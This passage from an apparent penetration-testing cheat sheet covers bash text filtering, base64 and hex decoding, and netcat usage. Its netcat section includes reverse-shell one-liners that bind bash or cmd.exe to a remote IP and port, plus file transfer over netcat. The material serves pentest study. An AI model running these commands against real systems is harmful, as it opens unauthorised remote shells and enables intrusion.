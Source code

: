         `tail index.html`

    *   Extract all the lines that contain a string  
        `grep "href=" index.html`

    *   Cut a string by a delimiter, filter results then sort  
        `grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u`

    *   Using Grep and regular expressions and output to a file  
        `cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt`

    *   Use a bash loop to find the IP address behind each host  
        `for url in $(cat list.txt); do host $url; done`

    *   Collect all the IP Addresses from a log file and sort by frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

*   Decoding using Kali

    *   Decode Base64 Encoded Values

        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    *   Decode Hexidecimal Encoded Values  
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

*   Netcat - Read and write TCP and UDP Packets

    *   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):[https://joncraton.org/blog/46/netcat-for-windows/](http://web.archive.org/web/20171113221652/https://joncraton.org/blog/46/netcat-for-windows/)

    *   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    *   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    *   Connect to a netcat port  
        `nc -nv $ip 4444`

    *   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    *   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`

    *   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444

    *   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`

        or

        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`
